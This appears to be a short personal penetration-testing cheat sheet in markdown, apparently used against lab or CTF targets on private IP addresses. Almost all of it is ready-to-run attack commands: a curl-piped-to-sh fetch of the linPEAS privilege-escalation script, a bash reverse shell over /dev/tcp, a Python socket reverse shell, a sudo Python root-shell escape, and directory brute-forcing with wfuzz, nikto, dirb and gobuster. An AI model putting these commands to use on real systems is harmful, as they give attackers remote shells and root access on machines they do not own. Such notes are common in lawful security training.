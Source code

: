 ## linPEAS

```bash
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## port forwarding

```bash
ssh jehad@192.168.78.129 -L 9999:localhost:9999
```

```bash
bash -c 'bash -i  >& /dev/tcp/192.168.78.128/8888 0>&1'
```


## python

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

```bash 
sudo python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.78.128",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## wfuzz

```bash
sudo wfuzz -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --hc 403,404  http://192.168.78.130:10000/FUZZ
```

## nikto

```bash
sudo nikto -h http://192.168.78.130:10000
```

## dirb 

```bash
dirb http://192.168.78.131/
```

## gobuster 

```bash
sudo apt update
sudo apt install gobuster
sudo gobuster dir -u http://raven.local/ -w /usr/share/wordlists/dirb/common.txt


sudo gobuster dir -u http://192.168.0.10/ -w /usr/share/wordlists/dirb/common.txt
sudo gobuster dir -u http://192.168.0.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
sudo gobuster dir -u http://192.168.0.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
sudo gobuster dir -u http://192.168.0.10:8000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```